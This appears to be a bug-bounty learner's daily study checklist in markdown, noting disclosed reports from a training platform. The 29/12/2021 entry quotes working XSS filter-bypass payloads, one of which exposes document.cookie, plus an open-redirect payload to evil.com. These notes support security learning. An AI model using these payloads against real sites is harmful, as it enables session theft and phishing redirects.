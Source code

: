 ![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

Date - 29/12/2021

- [x] #solve tryhackme room
- [x] #read zseano print book
- [x] #read firstblood1/2 Disclosed report ✅
	- https://www.bugbountyhunter.com/hackevents/report?id=273 (Reflected XSS on /login.php using the GET paramter 'goto')-(Payload are awesome)
		- Payload: iffu"><scr<script>ipt>confirm`1`</scr</script>ipt><" - 👌
			- <script> Tag are filtered that why he putting payload - <src<script>ipt> - when middle script is removed that become another "script" Tag.
				- https://stackoverflow.com/questions/1474185/what-does-this-mean-document-writescript (this is another example)

	- https://www.bugbountyhunter.com/hackevents/report?id=120 (Stored XSS on /drpanel/drapi/query.php?aptid)
	- https://www.bugbountyhunter.com/hackevents/report?id=126 ( Open Redirect /drpanel/logout.php)
		- Payload: /\/www.evil.com
	- https://www.bugbountyhunter.com/hackevents/report?id=258 (Reflected XSS on /login.php using ref parameter)
		- Payload: j%0aava%0ascr%0aipt:onerror=prompt;throw%20document.cookie - 👌
			- OutPut - > https://gchq.github.io/CyberChef/#recipe=URL_Decode()&input=aiUwYWF2YSUwYXNjciUwYWlwdDpvbmVycm9yPXByb21wdDt0aHJvdyUyMGRvY3VtZW50LmNvb2tpZQ

- [x] #want to create some usefull tool (if possible)
- [x] #try to do some manual recon on BugBounty program / JS recon
- [x] #leanring about things how web-application works on react-js,Node JS etc..  , Different type of CMS or Etc.. Etc..  
- [x] #try to read 1 intrigity-blog Bug-Bytes per day
- [x] #try to read payload artirst weekly blog 
- [x] #try to read anurag sr news latter
- [x] #try to daily hunt on "fastfoodhacking"
- [x] #watch ansh sir video ✅
	- 15-31-owasp-top-10-introduction-to-cross-site-scripting

- [x] #read disclosed report

![---------------------------------------------------------](https://raw.githubusercontent.com/andreasbm/readme/master/assets/lines/aqua.png)

Date - 30/12/2021

- [x] #solve tryhackme room
- [x] #read zseano print book
- [x] #read firstblood1/2 Disclosed report
- [x] #want to create some usefull tool (if possible) ✅
	- check every regex in my nuclei work properly or not .
	- checking is completed.  
- [x] #try to do some manual recon on BugBounty program / JS recon
- [x] #leanring about things how web-application works on react-js,Node JS etc..  , Different type of CMS or Etc.. Etc..  
- [x] #try to read 1 intrigity-blog Bug-Bytes per day
- [x] #try to read payload artirst weekly blog 
- [x] #try to read anurag sr news latter
- [x] #try to daily hunt on "fastfoodhacking"
- [x] #read disclosed report
